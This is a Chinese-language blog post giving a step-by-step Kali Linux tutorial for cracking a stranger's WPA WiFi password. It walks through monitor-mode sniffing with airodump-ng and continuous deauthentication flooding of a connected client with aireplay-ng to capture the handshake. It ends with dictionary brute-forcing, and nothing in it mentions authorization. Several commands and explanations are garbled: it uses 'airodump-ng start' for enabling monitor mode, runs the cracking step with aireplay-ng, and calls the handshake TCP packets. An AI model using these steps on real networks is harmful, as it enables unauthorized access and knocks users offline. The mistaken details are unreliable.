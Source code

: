 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、手机一台（用来打开WiFi热点）、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去窃取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

### 1.建立监听热点机制

首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airodump-ng start命令开启无线网卡，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

### 2.监听WiFi热点

使用airodump-ng wlan0mon命令开始监听周围的WiFi热点，显示周围热点（ctrl+c 停止监听）
![Alt text](/assets/img/监听wifi信号.png)
> + BSSID: 无线AP（路由器）的MAC地址。
> + PWR: 这个值的大小反应信号的强弱，越大越好。很重要！！！
> + RXQ: 丢包率，越小越好，此值对PJ密码影响不大。
> + Beacons: 反应客户端和AP的数据交换情况，通常此值不断变化。
> + #Data: 这个值非常重要，直接影响到密码PJ的时间长短，如果有用户正在下载文件或看电影等大量数据传输的话，此值增长较快。 
> + CH: 工作频道。
> + MB: 连接速度。
> + ENC: 编码方式。通常有WEP、WPA、TKIP等方式。
> + ESSID: 无线AP广播的名称。

选取一个WiFi热点进行嗅探抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)

为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication洪水攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

这时我们只需等待右上角出现WPA handshake字样，后面跟着BSSID，即为抓到了该无线网的握手包，我们可以使用CTRL+C来停止嗅探握手包。
![Alt text](/assets/img/获得握手包.png)

获取到了握手包我们就可以在之前设置的保存路径中看到，其中.cp文件就是我们需要破解的密码
![Alt text](/assets/img/握手包.png)

### 3、使用字典暴力破解

这一步是整个密码破解的关键，能否成功，取决与你的CPU是否强大，还有你字典的大小，以及字典的质量，密码的复杂程度。
```
aireplay-ng -a2 -b 48:0E:EC:7C:32:99 -w ~/1.txt ~/a/-01.cp
-a2  代表WPA的握手包
-b  指定要破解的WiFi BSSID
-w  指定字典文件
最后是抓取的包
```
![Alt text](/assets/img/暴力破解.png)

最后记得airmon-ng stop关闭你的无线网卡哦
![Alt text](/assets/img/关闭.png)
